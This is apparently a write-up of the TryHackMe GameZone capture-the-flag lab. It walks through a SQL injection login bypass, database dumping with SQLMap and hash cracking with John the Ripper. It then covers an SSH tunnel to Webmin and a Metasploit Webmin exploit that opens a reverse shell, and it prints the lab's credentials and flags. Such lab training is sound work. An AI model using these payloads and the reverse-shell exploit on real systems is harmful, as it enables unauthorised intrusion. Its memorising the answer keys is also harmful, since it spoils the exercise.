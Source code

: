 ## Obtain access via SQLi

SQL is a standard language for storing, editing, and retrieving data in databases. A query can look like this:

**SELECT * FROM users WHERE username = :username AND password = :password**

In our GameZone machine, when you attempt to log in, it will take your inputted values from your username and password, then insert them directly into the query above. If the query finds data, you'll be allowed to log in; otherwise, it will display an error message.

Let's use what we've learned above to manipulate the query and log in without any legitimate credentials.

If we set our username as "admin" and our password as **' or 1=1 -- -**, it will insert this into the query and authenticate our session.

The SQL query that now gets executed on the web server is as follows:

**SELECT * FROM users WHERE username = 'admin' AND password = '' or 1=1 -- -**

The extra SQL we inputted as our password has changed the above query to bypass the initial query and proceed (with the admin user) if 1=1, then comment the rest of the query to prevent it from breaking.

GameZone doesn't have an admin user in the database; however, you can still log in without knowing any credentials using the inputted password data we used in the previous question.

Use **' or 1=1 -- -** as your username and leave the password blank.

When you've logged in, what page do you get redirected to? `portal.php`

## Using SQLMap

Im going to use SQLMap to dump the entire database for GameZone.

Using the page I logged into earlier, Im going to point SQLMap to the game review search feature.

First, I need to intercept a request made to the search feature using [BurpSuite](https://tryhackme.com/room/learnburp).

![BurpSuite Intercept](https://i.imgur.com/ox4wJVH.png)

Save this request into a text file. I can then pass this file to SQLMap to use our authenticated user session.

![SQLMap Usage](https://i.imgur.com/W5boKpk.png)

**-r** uses the intercepted request you saved earlier.  
**--dbms** tells SQLMap the type of database management system being used.  
**--dump** attempts to output the entire database.

SQLMap will now try different methods to identify vulnerabilities. Eventually, it will output the database.

In the users table, what is the hashed password?  
What was the username associated with the hashed password?

sql

`Database: db Table: users [1 entry] +------------------------------------------------------------------+----------+ | pwd                                                              | username | +------------------------------------------------------------------+----------+ | ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  | +------------------------------------------------------------------+----------+`

What was the other table name?

vbnet

`Database: db Table: post [5 entries] +----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+ | id | name                           | description                                      | +----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+ | 1  | Mortal Kombat 11               | It's a rare fighting game that hits just about every note as strongly as Mortal Kombat 11 does. Everything from its methodical and deep combat.                                                         | | 2  | Marvel Ultimate Alliance 3     | Switch owners will find plenty of content to chew through, particularly with friends, and while it may be the gaming equivalent to a Hulk Smash, that isn't to say that it isn't a rollicking good time. | | 3  | SWBF2 2005                     | Best game ever                                 | | 4  | Hitman 2                       | Hitman 2 doesn't add much of note to the structure of its predecessor and thus feels more like Hitman 1.5 than a full-blown sequel. But that's not a bad thing.                                          | | 5  | Call of Duty: Modern Warfare 2 | When you look at the total package, Call of Duty: Modern Warfare 2 is hands-down one of the best first-person shooters out there, and a truly amazing offering across any system.                      | +----+--------------------------------+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+`

## Cracking a password with JohnTheRipper

If you are using a low-powered laptop, you can deploy a high-spec'd Kali Linux machine on TryHackMe and control it in your browser.

Once you have JohnTheRipper installed, you can run it against your hash using the following arguments:

![JohnTheRipper Usage](https://i.imgur.com/64g6Y8F.png)

**hash.txt** - contains a list of your hashes (in your case, it's just 1 hash).  
**--wordlist** - is the wordlist you're using to find the dehashed value.  
**--format** - is the hashing algorithm used. In our case, it's hashed using SHA256.

What is the dehashed password?  
`videogamer124`

Now you have a password and username. Try SSH'ing onto the machine.

What is the user flag?  
`649ac17b1480ac13ef1e4fa579dac95c`

## Exposing services with reverse SSH tunnels

Reverse SSH port forwarding specifies that the given port on the remote server host is to be forwarded to the given host and port on the local side.

**-L** is a local tunnel (YOU <-- CLIENT). If a site was blocked, you can forward the traffic to a server you own and view it. For example, if imgur was blocked at work, you can do **ssh -L 9000:imgur.com:80 [user@example.com](mailto:user@example.com)**. Going to localhost:9000 on your machine will load imgur traffic using your other server.

**-R** is a remote tunnel (YOU --> CLIENT). You forward your traffic to the other server for others to view. Similar to the example above but in reverse.

![SSH Tunnel Diagram](https://i.imgur.com/cYZsC8p.png)

I will use a tool called **ss** to investigate sockets running on a host.

If I run **ss -tulpn**, it will tell us what socket connections are running.



|**Argument**|**Description**|
|---|---|
|-t|Display TCP sockets|
|-u|Display UDP sockets|
|-l|Displays only listening sockets|
|-p|Shows the process using the socket|
|-n|Doesn't resolve service names|


```
Netid  State      Recv-Q Send-Q Local Address:Port               Peer Address:Port              
udp    UNCONN     0      0         *:10000                 *:*                  
udp    UNCONN     0      0         *:68                    *:*                  
tcp    LISTEN     0      80     127.0.0.1:3306                  *:*                  
tcp    LISTEN     0      128       *:10000                 *:*                  
tcp    LISTEN     0      128       *:22                    *:*                  
tcp    LISTEN     0      128      :::80                   :::*                  
tcp    LISTEN     0      128      :::22                   :::*                  

```         

I can see that a service running on port 10000 is blocked via a firewall rule from the outside (we can see this from the IPtable list). However, using an SSH tunnel, we can expose the port to us (locally)!

From our local machine, run `ssh -L 10000:localhost:10000 <username>@<ip>`.

Once complete, in your browser, type "localhost:10000," and you can access the newly exposed web server.

![Webmin CMS](https://i.imgur.com/9vJZUZv.png)

What is the name of the exposed CMS?  
`Webmin`

What is the CMS version?  
Login with the credentials above.  
`1.580`

## Privilege Escalation with Metasploit

Using the CMS dashboard version, use Metasploit to find a payload to execute against the machine.

What is the root flag?

1. Open Metasploit.
2. Use the following commands:
`use exploit/unix/webapp/webmin_show_cgi_exec set RHOSTS localhost set USERNAME agent47 set PASSWORD videogamer124 set SSL false set PAYLOAD cmd/unix/reverse set LHOST [local ip] exploit`

`a4b945830144bdd71908d12d902adeee`

Note: Please make sure to replace `[local ip]` with your actual local IP address.